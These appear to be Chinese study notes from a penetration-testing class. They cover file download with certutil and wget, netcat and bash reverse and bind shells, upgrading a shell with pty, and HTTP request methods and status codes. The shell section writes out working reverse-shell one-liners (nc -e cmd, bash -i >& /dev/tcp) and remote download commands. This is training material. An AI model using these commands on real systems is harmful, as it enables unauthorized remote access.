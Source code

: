 https://eternallybored.org/misc/netcat/

* 老师的靶机

http://172.168.20.40:8005

2、linux

下载命令：wget、curl、python

~~~shell
# 搭建网站：
	python -m http.server
# 文件下载
certutil.exe -urlcache -split -f http://IP：端口/文件名
# 反弹shell
1、windows下载：nc/netcat（反弹shell回显）
2、linux监听：nc -lvvp 8888
2、win：nc64.exe -e cmd IP port
echo "bash -i >& /dev/tcp/127.0.0.1/8080 0>&1" | bash
# 正向shell
1、windows监听：nc -lvvp 8888
2、kali：mc -e /bin/sh IP port
##python开启一个新终端：搭建一个半交互式的反弹shell：
	python -c 'import pty:pty.spawn("/bin/bash")'
	ctrl + z（挂后台运行）
	stty raw -echo（重置stty，意味着你看不到输入的内容）
	fg（调回前台）...
# 反弹shell的类型
1、非交互式：非交互式反弹shell没有上下文。
	使用history，看是否又输出，非交互式是没有输出的。（nc、bash不加i）
2、半交互式：有一定的上下文（bash -i）
	history有输出，top命令无输出
3、交互式：引入伪终端pty。之前的两种情况bash的输入输出要么链接着管道，要么链接着socket，但是伪终端生成的反弹shell，输入输出和正常情况一样。
# 链接：https://cloud.tencent.com/developer/article/1645464
~~~



## 5、HTTP报文

host：目标

refer：从哪里来

~~~shell
1、数据包组成
	请求行、请求头标、空行、请求数据
2、请求方式（8种）
	get
	post
	head
	put
	trace
	delete
	option
	connect
# get和post的区别
get提交的数据大小有限制，而post方法提交的数据没有限制。
get会出现安全问题
# 响应状态码介绍
1xx：指示信息-表示请求已接收、继续处理
2xx：成功-表示请求已经被成功接收、理解
3xx：重定向-要完成请求必须进行更进一步的操作
4xx：客户端错误-请求有语法错误或请求无法实现
5xx：服务端错误-服务器未能实现合法的请求
~~~
